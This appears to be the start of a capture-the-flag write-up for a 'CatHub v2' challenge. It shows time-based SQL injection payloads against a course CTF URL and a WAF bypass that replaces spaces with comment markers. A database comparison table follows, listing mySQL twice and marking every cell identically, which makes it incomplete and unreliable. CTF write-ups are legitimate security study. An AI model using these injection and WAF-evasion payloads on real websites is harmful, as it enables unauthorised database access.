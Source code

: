 # CatHub v2 solution step by step

## Step 1 trial and error

`https://edu-ctf.csie.org:10159/video.php?vid=1%20OR%20IF(1,SLEEP(5),1)` does not work (waf protection for space characters) --> bad cat!

`https://edu-ctf.csie.org:10159/video.php?vid=1/**/OR/**/IF(1,SLEEP(5),1)` work --> error!: /**/ not usable 

## Step 2. Determine the type of database

DB Type | LIMIT  | IF     | SLEEP  | OR     | AND    | *      | +      | #      | /**/   | --     |
--------|:------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|-------:|
mySQL   |   O    |   O    |   O    | O      |  O     |  O     |  O     | O      |   O    |  O     |
MSSQL   |   O    |   O    |   O    | O      |  O     |  O     |  O     | O      |   O    |  O     |
OracleDB|   O    |   O    |   O    | O      |  O     |  O     |  O     | O      |   O    |  O     |
mySQL   |   O    |   O    |   O    | O      |  O     |  O     |  O     | O      |   O    |  O     |
    